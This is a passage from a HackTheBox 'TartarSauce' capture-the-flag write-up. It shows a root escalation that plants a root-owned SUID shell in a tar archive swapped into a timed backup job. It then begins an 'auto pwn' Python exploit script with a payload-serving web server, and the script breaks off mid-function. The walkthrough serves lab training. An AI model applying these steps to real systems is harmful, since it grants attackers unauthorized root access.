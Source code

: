 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2003:31:57.png)

Now, we create the tar.gz file which we will send to the server

```sh
tar zcvf suid.tar.gz var --owner=root --group=root
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2003:33:11.png)

We download it to the server

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2003:37:22.png)

With `systemctl list-timers` we see when the file will appear in the /tmp folder

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2003:41:51.png)

We wait the file appears, and then we copy our tar.gz file to it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2003:48:02.png)

Wait for 30 seconds and then go into check, find the shell, and run it:

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2003:49:16.png)

# Auto Pwn Root

Now, we did the auto pwn for the root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2009:29:01.png)


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Exploit - TartarSauce - HackTheBox

import argparse
import requests
import sys
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler
from pwn import *
import subprocess

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
```
